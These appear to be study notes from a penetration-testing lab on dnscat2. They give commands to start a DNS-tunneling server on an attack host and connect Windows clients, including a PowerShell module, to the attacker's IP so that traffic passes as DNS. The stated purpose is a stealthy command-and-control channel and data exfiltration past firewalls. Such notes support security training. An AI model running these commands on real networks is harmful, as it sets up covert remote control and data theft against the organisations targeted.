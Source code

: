 # Notes on DNS Tunneling with Dnscat2

## Overview
- **Dnscat2**: Tunneling tool using DNS protocol to transmit data between hosts.
- **Purpose**: Creates encrypted C2 channel, embedding data in DNS TXT records for stealthy exfiltration.
- **Stealth**: Bypasses firewalls via DNS traffic, often allowed in corporate networks.

## How Dnscat2 Works
- **Corporate DNS**: Internal DNS servers resolve hostnames, forwarding external queries.
- **Process**:
  - Client sends DNS queries to external Dnscat2 server.
  - Data hidden in TXT records, mimicking legitimate DNS traffic.
  - External server processes tunneled data.

## Setting Up Dnscat2

### Attack Host: Dnscat2 Server
1. **Clone Repository**:
   ```bash
   git clone https://github.com/iagox86/dnscat2.git
   cd dnscat2/server/
   ```
2. **Install Dependencies**:
   ```bash
   sudo gem install bundler
   sudo bundle install
   ```
3. **Start Server**:
   ```bash
   ruby dnscat2.rb
   ```
   - Runs on `10.10.14.18:53` (UDP port 53) for `inlanefreight.local`.
   - Generates pre-shared secret (e.g., `0ec04a91cd1e963f8c03ca499d589d21`).
   - Enforces encrypted connections.

### Target Host: Dnscat2 Client (Windows)
1. **Standard Client**:
   - Run with domain and secret:
     ```bash
     ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local
     ```
   - Or direct IP:
     ```bash
     ./dnscat --dns server=10.10.14.18,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21
     ```
2. **PowerShell Client**:
   - **Clone**:
     ```bash
     git clone https://github.com/lukebaggett/dnscat2-powershell
     ```
   - Transfer `dnscat2.ps1` to target.
   - **Import**:
     ```powershell
     Import-Module .\dnscat2.ps1
     ```
   - **Start**:
     ```powershell
     Start-Dnscat2 -DNSServer 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21
     ```